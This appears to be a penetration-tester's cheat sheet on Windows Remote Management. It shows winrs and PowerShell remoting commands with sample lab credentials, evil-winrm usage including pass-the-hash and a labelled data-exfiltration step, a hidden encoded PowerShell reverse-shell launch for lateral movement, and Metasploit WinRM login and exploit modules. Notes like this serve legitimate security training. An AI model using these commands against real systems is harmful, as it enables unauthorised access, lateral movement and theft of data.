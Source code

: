 # Windows Remote Management (WinRM)

WinRM is the Microsoft version of the WS-Management protocol and it exchanges XML messages over HTTP and HTTPS. It uses TCP port 5986 for encrypted HTTPS traffic and port 5985 for plain HTTP.

TCP port 5985 and 5986 (HTTPS)

- <https://en.wikipedia.org/wiki/WS-Management>


Is a Windows remote management protocol that can be used to facilitate remote access with Windows systems.

WinRM is typically used in the following ways:
- Remotely access and interact with Windows hosts on a local network.
- Remotely access and execute commands on Windows systems on the internet.
- Manage and configure Windows systems remotely.

WinRM implements access control and security for communication between systems through various forms of authentication.


*For WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.*














## winrs (Windows Remote Shell)

Only works for domain users

```
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
# Output:
FILES04
corp\jen
```


To convert this technique into a full lateral movement scenario, we just need to replace the previous commands with a base64 encoded reverse-shell.

```
winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e [ENCODED SHELL]"
```





### PSSession

PowerShell also has WinRM built-in capabilities called PowerShell remoting, which can be invoked via the New-PSSession cmdlet by providing the IP of the target host along with the credentials in a credential object format.

```
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName 192.168.50.73 -Credential $credential
```
To interact with the session ID 1 we created, we can issue the Enter-PSSession cmdlet followed by the session ID:
```
PS C:\Users\jeff> Enter-PSSession 1
PS C:\Users\jeff> whoami # Output: corp\jen
PS C:\Users\jeff> hostname # Output: FILES04
```




#### More commands

Execute a Command in the PSSession: Use Invoke-Command to run a command on the remote machine using the session you created.
```
# Execute a command on the remote computer
Invoke-Command -Session $session -ScriptBlock { Get-Process }

```


Interact with the Remote Session: You can also enter the session to interact with it directly.
```
# Enter the remote session
Enter-PSSession -Session $session

```


Exit and close the session:

```
# Exit the remote session
Exit-PSSession

# Remove the PSSession
Remove-PSSession -Session $session


```





















## Evil-Winrm

- <https://github.com/Hackplayers/evil-winrm>

We can also utilize a ruby script called `evil-winrm` to obtain a command shell session on the target system.



```
evil-winrm -i [TARGET IP] -u [USERNAME] -p [PASSWORD]
evil-winrm -i 10.129.136.91 -u administrator -p badminton


> menu



# Upload and download files
evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -s "source" -d "dest"
evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -g "source" -d "dest"


# Script execution
evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -s "powershell_script.ps1"



# Lateral movement
evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -smb <TARGET_IP> -h <HASH>


# Data exfiltration
Compress-Archive -Path "data_directory" -DestinationPath "exfiltrated_data.zip"

evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -g "exfiltrated_data.zip" -d "dest"


```


























## MSF

auxiliary/scanner/winrm/winrm_auth_methods
auxiliary/scanner/winrm/winrm_login
auxiliary/scanner/winrm/winrm_cmd

exploit/windows/winrm/winrm_script_exec
	set FORCE_VBS true